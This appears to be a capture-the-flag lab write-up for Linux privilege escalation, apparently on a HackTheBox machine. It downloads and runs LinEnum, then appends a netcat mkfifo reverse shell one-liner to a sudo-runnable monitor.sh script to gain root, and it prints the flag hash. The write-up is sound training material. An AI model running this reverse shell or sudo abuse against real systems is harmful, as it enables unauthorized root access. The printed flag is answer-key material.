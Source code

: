 [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks

```pug
sudo python3 -m http.server 8080
```
Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script
`chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it



```shell-session
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
we could have checked with `sudo -l`


reverse shell one liner
```pug
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.65 8443 >/tmp/f' | tee -a monitor.sh
```
listen
```pug
nc -lvnp 8443
```
and start
```pug
sudo ./monitor.sh
```

-> root access



Escalate privileges and submit the root.txt flag.

de5e5d6619862a8aa5b9b212314e0cdd
![[Pasted image 20240427173540.png]]